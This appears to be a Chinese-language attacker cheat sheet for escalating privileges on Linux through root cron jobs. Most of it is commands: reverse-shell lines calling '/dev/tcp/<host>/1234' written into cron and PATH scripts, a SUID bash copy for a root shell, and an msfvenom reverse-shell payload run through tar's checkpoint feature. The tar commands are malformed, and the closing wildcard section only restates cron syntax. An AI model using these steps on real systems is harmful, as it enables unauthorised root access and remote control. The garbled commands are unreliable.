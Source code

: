 # 文件权限

root权限自动任务脚本可写，写入反弹shell

```bash
cat /etc/crontab
# root /path/file writable
echo 'bash -i >& /dev/tcp/<host>/1234 0>&1' >> /file
```

# PATH环境变量

root权限自动任务存在，路径为相对地址，PATH中存在可写文件夹，在其中编写同名自动任务文件

- 写入反弹shell

```bash
echo '#!/bin/bash' > OnePATH/file
echo 'bash -i >& /dev/tcp/<host>/1234 0>&1' >> OnePATH/file
```

- 写入提权代码

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```bash
/tmp/rootbash -p # -p: priviledged, run as suid
```

# tar命令—check-point机制

root权限自动任务脚本存在，脚本中存在tar命令，使用tar命令的—check-point机制执行反弹shell。

**原理：**

在 Linux 的 `tar` 命令中，`--checkpoint` 选项用于在读取或写入每 n 条记录时设置检查点。默认情况下，n 的值为 10。检查点允许我们定期执行任意操作。
这些操作包括暂停、显示文本消息以及执行任意外部程序。这些操作是通过 `--checkpoint-action` 选项定义的。

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<host> LPORT=<port> -f elf -o shell.elf
tar /path/to/rshell--check-point=1
tar /path/to/rshell--check-action=exec=shell.elf
```

---

# 通配符

格式

```bash
m h dom mon dow
```

在自动任务中，通配符用于表示一组值。以下是一些常见的通配符及其含义：

- ：表示任何可能的值。例如，在 cron 表达式中，如果在“小时”字段中使用 *，则表示“每个小时”。
- ?：表示不指定值。这在某些字段（如 cron 表达式的“日”和“周”字段）中很有用，当你想忽略这个字段时，可以使用 ?。
- -：表示一个范围。例如，在 cron 表达式中，1-5 表示“从 1 到 5”。
- ,：用于指定多个值。例如，在 cron 表达式中，1,3,5 表示“1、3 和 5”。
- /：用于指定间隔值。例如，在 cron 表达式中，*/5 表示“每 5 个单位”。